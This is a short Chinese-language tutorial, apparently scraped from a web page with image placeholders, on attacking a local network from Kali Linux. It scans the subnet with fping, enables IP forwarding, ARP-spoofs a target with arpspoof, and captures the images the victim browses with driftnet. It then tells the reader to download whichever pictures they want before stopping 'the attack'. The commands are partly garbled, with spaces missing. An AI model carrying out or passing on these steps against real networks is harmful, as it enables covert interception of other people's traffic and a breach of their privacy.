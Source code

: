  首先在kali里打开一个终端，扫描局域网正在连接的IP



命令：fping-asg192.168.0.1/24（具体要看本机ip地址，根据局域网环境选择0段、1段或是其他）



/proc/sys/net/ipv4/ip_forward

目标对象的网络数据都要经过本机网卡转发



查看是否开启成功：

cat/proc/sys/net/ipv4/ip_forward



然后在另开一个终端输入

arpspoof  -i  eth0  -t  目标网关  目标ip



图片



此时确认目标对象依然能正常上网，在终端中打开一个新标签



用命令获取目标对象上网图片



Driftnet -i eth0



图片



框内出现目标浏览的照片，找到你想要的下载就ok了，别忘了用ctrl c  终止攻击。
